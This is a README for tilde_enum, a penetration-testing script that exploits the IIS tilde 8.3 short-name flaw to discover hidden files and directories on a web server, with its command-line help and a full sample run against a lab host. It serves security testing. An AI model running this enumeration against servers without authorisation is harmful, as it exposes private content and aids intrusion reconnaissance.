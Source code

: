 tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln (https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/, http://www.acunetix.com/vulnerabilities/microsoft-iis-tilde-direc/, http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) and tries to get you full file and directory names.

This is an attempt to take the cool POC scanner at https://github.com/irsdl/iis-shortname-scanner/tree/master/ and get you the rest of the file/directory names so you can retrieve them.

Feed this script a URL and also a word list of potential file/dir names. The script will look up the roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt (or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized by the vulnerability). You should still try to enumerate directories using a word list and [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something. 

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the `dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$ ./tilde_enum.py --help
usage: tilde_enum.py [-h] [-c COOKIES] [-d DIRWORDLIST] [-f] [-p PROXY]
                     [-s SNOOZE] [-u URL] [-v] [-w WORDLIST]
                     [--no-check-certificate]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES            cookies to be used in the request
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -p PROXY              Use a proxy host:port
  -s SNOOZE             time in seconds to sleep/wait between requests
  -u URL                URL to scan
  -v                    verbose output
  -w WORDLIST           the word list to be used for guessing files
  --no-check-certificate
                        don't verify the SSL certificate
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/predictableres/raft-small-words-lowercase.txt -d /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt
[-]  Testing with dummy file request http://iis/mhxWjUz25u.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found a new directory: docume
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  765432 . htm
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for /.
[-]  Now starting the word guessing using word list calls
[*]  Found one! (Size 1307) http://iis/parameter.xml
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden
[*]  Found one! (Size 1433) http://iis/documentation/
[*]  Found one! (Size 1433) http://iis/javascript/
[-]  Now starting recursive 8.3 enumeration into the directories we found.
[-]  Diving into the http://iis/documentation/ dir.
[+]  Found file:  advert . htm
[+]  Found file:  defaul . asp
[-]  Finished doing the 8.3 enumeration for /documentation/.
[*]  Found one! (Size 227) http://iis/documentation/advertising.html
[*]  Found one! (Size 1433) http://iis/documentation/default.aspx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.
[-]  Diving into the http://iis/javascript/ dir.
[+]  Found file:  321 . xls
[-]  Finished doing the 8.3 enumeration for /javascript/.
[-]  File name (321) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 227) http://iis/javascript/321.xlsx
[-]  Trying to find directory matches now.
[-]  You used the "-d" option.
      Using /pentest/fuzzdb/discovery/predictableres/raft-small-directories-lowercase.txt for directory name look-ups.

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at:
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/documentation/advertising.html  - Size 227
[*]      http://iis/documentation/default.aspx  - Size 1433
[*]      http://iis/javascript/321.xlsx  - Size 227
[*]      http://iis/parameter.xml  - Size 1307

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://iis/documentation/advert~1.htm
[*]      http://iis/documentation/defaul~1.asp
[*]      http://iis/765432~1.htm
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/javascript/321~1.xls

[*]  We found directories for you to look at:
[*]      http://iis/documentation/  - Size 1433
[*]      http://iis/javascript/  - Size 1433

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[?]      http://iis/_vti_s~1/
[?]      http://iis/aspnet~1/
[?]      http://iis/copyof~1/
[?]      http://iis/docume~1/
[?]      http://iis/javasc~1/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
</pre>
